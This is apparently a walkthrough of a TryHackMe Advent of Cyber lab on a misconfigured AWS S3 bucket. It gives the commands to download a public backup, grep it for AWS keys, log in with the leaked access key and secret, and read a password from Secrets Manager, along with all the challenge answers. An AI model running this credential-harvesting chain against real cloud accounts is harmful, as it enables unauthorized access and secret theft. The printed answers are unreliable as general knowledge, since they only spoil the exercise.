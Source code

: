 # Advent of Cyber - Day 17

Link: [Advent Of Cyber 3 on TryHackMe](https://tryhackme.com/room/adventofcyber3)

### Question 1

What is the name of the S3 Bucket used to host the HR Website announcement?

Copy the image address: `https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png`, it is contained within.

Answer: `images.bestfestivalcompany.com`

### Question 2

What is the message left in the flag.txt object from that bucket?

Command: `curl https://s3.amazonaws.com/images.bestfestivalcompany.com/flag.txt`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/2.png?raw=true)

Answer: `It's easy to get your elves data when you leave it so easy to find!`

### Question 3

What other file in that bucket looks interesting to you?

Command: `aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/3.png?raw=true)

Answer: `wp-backup.zip`

### Question 4

What is the AWS Access Key ID in that file?

Commands: 
```bash
curl https://s3.amazonaws.com/images.bestfestivalcompany.com/wp-backup.zip > wp-backup.zip
unzip -qq wp-backup.zip
cd wp_backup
grep -Rn "AKIA" ./
```

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/4.1.png?raw=true)

For the secret key: `grep -Rn "S3_" ./`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/4.2.png?raw=true)

Answer: `AKIAQI52OJVCPZXFYAOI`

### Question 5

What is the AWS Account ID that access-key works for?

Commands:
```bash
aws configure --profile temp

# Fill in AWS Access Key: AKIAQI52OJVCPZXFYAOI
# Fill in AWS Secret Access Key: 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
# Fill in Default region name: us-east-1
# Fill in Default output format: json

aws sts get-caller-identity --profile temp
```

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/5.png?raw=true)

Answer: `019181489476`

### Question 6

What is the Username for that access-key?

See the previous question.

Answer: `ElfMcHR@bfc.com`

### Question 7

There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

Command: `aws ec2 describe-instances --output text --region us-east-1 --profile me`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/7.png?raw=true)

Answer: `HR-Portal`

### Question 8

What is the database password stored in Secrets Manager?

We first want to get the list of secrets: `aws secretsmanager list-secrets --profile me`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/8.1.png?raw=true)

We then want to get the secret named `HR-Password`: `aws secretsmanager get-secret-value --secret-id HR-Password --version-stage AWSPREVIOUS --profile me`. This gives us a string that tells us the secret is in another region. (Big "Your princess is in another castle vibes)

Santa lives in the north pole, so let us try with `eu-north-1`: `aws secretsmanager get-secret-value --secret-id HR-Password --version-stage AWSPREVIOUS --profile me --region eu-north-1`

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day17/8.2.png?raw=true)

Answer: `Winter2021!`